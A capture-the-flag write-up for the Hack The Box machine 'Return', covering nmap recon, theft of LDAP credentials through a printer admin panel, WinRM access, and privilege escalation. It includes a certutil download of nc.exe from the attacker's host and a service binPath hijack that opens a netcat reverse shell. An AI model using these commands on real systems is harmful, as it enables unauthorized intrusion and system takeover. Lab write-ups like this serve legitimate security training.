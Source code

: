 # HTB-return

As always, started with Nmap, and did some recon of the website.

```bash
# Nmap 7.94SVN scan initiated Sat Feb 17 18:19:21 2024 as: nmap -p- -Pn -A -T4 -sC -oN nmap.txt 10.129.95.241
Nmap scan report for 10.129.95.241
Host is up (0.049s latency).
Not shown: 65510 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-17 23:38:52Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m37s
| smb2-time: 
|   date: 2024-02-17T23:39:43
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 17 18:21:14 2024 -- 1 IP address (1 host up) scanned in 112.48 seconds
```

Nmap didn't reveal anything useful, but right away on the website, I spotted something that would probably lead me to my foothold. Under the 'settings' tab, I saw saved credentials, and I saw I could modify the server address.

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

I immediately fired up netcat, changed the server address to my IP, and I scored credentials right away.

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Too easy, the next step was to login with them using Evil Win-RM. Took me a few tries because I didn't need to add the domain name to the user.

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

The I got my user.txt on the desktop

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Next up is priv esc. I ended up transferring over WinPEAs, but it killed my session so I didn't get to finish. From what I did review, I didn't find anything of interest.

Next step was to see what user permissions I have by running

```bash
net user svc-printer
```

And I am a part of the 'Server Operators' Group

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

I know that group can start/stop system services, so I went ahead and uploaded netcat on the machine.

```
certutil.exe -urlcache -split -f http://10.10.14.178/nc.exe nc.exe
```

And then I needed to modify a service to get our reverse shell.

{% code overflow="wrap" %}
```
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.178 1234"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Next was to stop, and then restart the service, while having netcat listening on my machine.

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Stop

```
sc.exe stop vss
```

Then Start

```
sc.exe start vss
```

<figure><img src=".gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

We get our shell and root flag

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

